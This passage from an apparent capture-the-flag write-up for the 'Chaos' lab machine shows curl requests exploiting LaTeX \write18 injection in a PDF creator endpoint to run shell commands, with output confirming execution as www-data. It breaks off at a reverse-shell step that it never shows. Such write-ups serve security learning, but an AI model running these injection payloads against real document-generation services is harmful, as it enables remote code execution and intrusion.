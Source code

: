      ![PDF Creator](./screenshots/22_chaos/80_enim_link.png)

   __NOTE(S)__:
   - Pressing `Create PDF` creates a __POST__ request to `/ajax.php`
>
2. Check server response when creating a PDF
   ```console
   $ curl -d "content=test&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php

     LOG:
     This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
      \write18 enabled.
     entering extended mode

   ```
   __NOTE(S)__:
   - `\write18 enabled` is written in the response.
     - `\write` is used to write to a stream
     - Stream `18` is referenced to the shell (or terminal)
   - When used with `\immediate`, `\write18` immediately executes instead of after the page has been served
>
3. Attempt RCE (Remote Code Execution):
   ```console
   $ curl -d "content=\immediate\write18{id}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php

     LOG:
     This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
      \write18 enabled.
     entering extended mode
     ...omitted...
     ...uid=33(www-data) gid=33(www-data) groups=33(www-data)
     ...omitted...
     ```
   __NOTE(S)__:
   - `\immediate\write18{id}` executed
>
4. Set-up Reverse Shell:
   ```